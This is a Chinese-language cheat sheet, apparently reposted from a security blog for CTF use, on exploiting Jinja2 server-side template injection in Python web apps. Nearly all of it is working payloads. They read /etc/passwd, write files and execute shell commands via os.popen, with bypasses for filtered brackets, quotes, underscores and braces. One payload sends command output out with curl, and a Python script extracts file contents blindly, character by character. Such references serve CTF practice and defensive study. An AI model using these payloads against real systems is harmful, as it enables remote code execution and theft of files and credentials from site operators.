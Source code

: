 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.kanzhun.com](https://www.kanzhun.com/jiaocheng/597515.html)

转自 https://p0sec.net/index.php/archives/120/  
好长时间没更新过了，ssti 也不是新东西，打国赛半决赛，简直是 demo 全家桶，ssti 必然是遇到不少。很多东西只是保存在收藏栏里，用的时候再查很浪费时间，记录一下，遇到时也能顺手一点。

0x00 获取基本类
----------

首先通过 str、dict、tuple 或 list 获取 python 的基本类 (当然也可以利用一些其他在 jinja2 中存在的对象，比如 request)：

```
''.__class__.__mro__[2]
    {}.__class__.__bases__[0]
    ().__class__.__bases__[0]
    [].__class__.__bases__[0]
    request.__class__.__mro__[8]
```

可以借助__getitem__绕过中括号限制：

```
''.__class__.__mro__.__getitem__(2)
    {}.__class__.__bases__.__getitem__(0)
    ().__class__.__bases__.__getitem__(0)
    request.__class__.__mro__.__getitem__(8)
```

下面基本类就用 object 代替，测试时将 object 换成上面任意一个

0x01 文件操作
---------

object.__subclasses__()[40] 为 file 类，所以可以对文件进行操作

读文件：

```
object.__subclasses__()[40]('/etc/passwd').read()
```

写文件：

```
object.__subclasses__()[40]('/tmp').write('test')
```

0x02 执行命令
---------

object.__subclasses__()[59].init.func_globals.linecache 下直接有 os 类，可以直接执行命令：

```
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
```

object.__subclasses__()[59].__init__.globals.__builtins__下有 eval，__import__等的全局函数，可以利用此来执行命令：

```
object.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
object.__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

0x03 ByPass
-----------

分享一些 payload

过滤 [

读文件：

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```

执行命令：

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

过滤引号

先获取 chr 函数，赋值给 chr，后面拼接字符串就好了：

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
```

借助 request 对象 (推荐)：

```
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
```

执行命令：

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```

过滤双下划线__

{{‘’[request.args.class][request.args.mro][2]request.args.subclasses40.read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__  
4. 过滤 {{

可以利用 {%%} 标记

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

相当于盲命令执行，利用 curl 将执行结果带出来

如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来

```
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}
```

平时的 SQL 注入盲注脚本改一下就 ok

```
# -*- coding: utf-8 -*-
import requests


url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

参考：

```
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/
https://0day.work/jinja2-template-injection-filter-bypasses/
```